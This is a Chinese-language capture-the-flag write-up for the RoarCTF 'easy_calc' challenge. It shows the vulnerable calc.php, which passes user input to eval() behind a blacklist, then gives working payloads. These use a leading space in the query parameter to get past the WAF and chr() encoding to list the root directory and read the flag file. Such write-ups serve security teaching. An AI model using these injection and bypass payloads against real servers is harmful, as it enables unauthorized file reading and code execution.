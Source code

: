 ```yaml
---
title: buuoj刷题记录2
date: 2019-12-26 20:16:12
tags:
 - ctf
 - Roarctf
 - web
 - buuoj
---
```


## [Roarctf]easy_calc

### 0x01 基础

php内置读取文件内容函数

```
file_get_contents
readfile
file
```

目录扫描函数

```
scandir
```

<!--more-->

字符转换函数

```
hex2bin("979797")->"aaa"
chr(95)->"a"
```

输出函数

```
var_dump()
printf()
```

`parse_str`函数通常被自动应用于`get`、`post`请求和`cookie`中。使用`parse_str`解析规则绕过waf

### 0x02 分析

查看源码，发现calc.php

```php
<script>
    $('#calc').submit(function(){
        $.ajax({
            url:"calc.php?num="+encodeURIComponent($("#content").val()),
            type:'GET',
            success:function(data){
                $("#result").html(`<div class="alert alert-success">
            <strong>答案:</strong>${data}
            </div>`);
            },
            error:function(){
                alert("这啥?算不来!");
            }
        })
        return false;
    })
</script>
```

进入calc.php,进行代码审计。

```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {    
                        die("what are you want to do?");//如果包含黑名单中的字符，程序退出
                }
        }
        eval('echo '.$str.';');
}
?> 
```

### 0x03 开始操作

传入`1+1` 显示`403 Forbidden` 传入`1%2b1`就可以。必须传入urldecode后。查看`phpinfo()`，也是`403 Forbidden`，利用PHP自动解析函数`parser_str()`绕过，纤细介绍查看[参考连接](https://www.freebuf.com/articles/web/213359.html)。

扫描目录使用`scandir()`因为`/ '  "`被过滤无法直接使用`/`，使用`chr()`转换payload= `?+num=print_r(scandir(chr(47)))`

```
Array ( [0] => . [1] => .. [2] => .dockerenv [3] => bin [4] => boot [5] => dev [6] => etc [7] => f1agg [8] => home [9] => lib [10] => lib64 [11] => media [12] => mnt [13] => opt [14] => proc [15] => root [16] => run [17] => sbin [18] => srv [19] => start.sh [20] => sys [21] => tmp [22] => usr [23] => var ) 1
```

使用PHP内置函数获`file_get_contents()`获取文件内容payload=`?+num=printf(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))`

```
flag{d09c31b7-d1a1-45a2-b35b-65452a1335ef} 43
```

